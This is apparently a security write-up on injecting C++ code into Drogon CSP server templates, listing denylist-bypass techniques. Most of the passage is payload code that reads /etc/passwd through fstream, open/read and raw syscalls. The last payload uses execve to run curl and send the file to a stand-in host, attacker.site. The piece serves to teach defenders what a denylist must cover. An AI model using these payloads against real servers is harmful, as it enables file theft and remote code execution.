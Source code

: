 A sufficient denylist needs to consider the following approaches, similar to any C/C++ denylist-bypass challenge. The actual denylist has been left as an exercise for the reader.

#### File Read/Write with `fstream`, `fopen`

```csp
<%inc
#include <fstream>
#include <sstream>
%>
<%c++
    std::ifstream ifs{"/etc/passwd"};
    if (ifs.is_open()) {
        $$ << ifs.rdbuf();
    } else {
        $$ << "Failed to open file.";
    }
%>
```

#### File Read/Write with `open`, `read`

If high-level file IO isn't an option, we could always resort to the lower-level Linux functions.

```csp
<%inc
#include <unistd.h>
%>
<%c++
    char buffer[99] = {};
    read(open("/etc/passwd", 0), buffer, 99);
    $$ << buffer;
%>
```

#### File Read/Write, RCE with `syscall`

We can go one level deeper using the `syscall()` function. This allows us to call the usual `open`, `read`, `write`, `execve` syscalls, albeit less readably.

```csp
<%inc
#include <unistd.h>
%>
<%c++
    char buffer[99] = {};
    syscall(0, syscall(2, "/etc/passwd", 0       ), buffer, 99);
//  read(      open(      "/etc/passwd", O_RDONLY), buffer, 99);
    $$ << buffer;
%>
```

Thanks to syscall 59, we can also run `execve` to achieve RCE.

```csp
<%inc
#include <unistd.h>
%>
<%c++
    const char* argv[] = {
        "/usr/bin/curl",
        "http://attacker.site",
        "--data",
        "@/etc/passwd",
        NULL
    };
    syscall(59, "/usr/bin/curl", argv, 0);
%>
```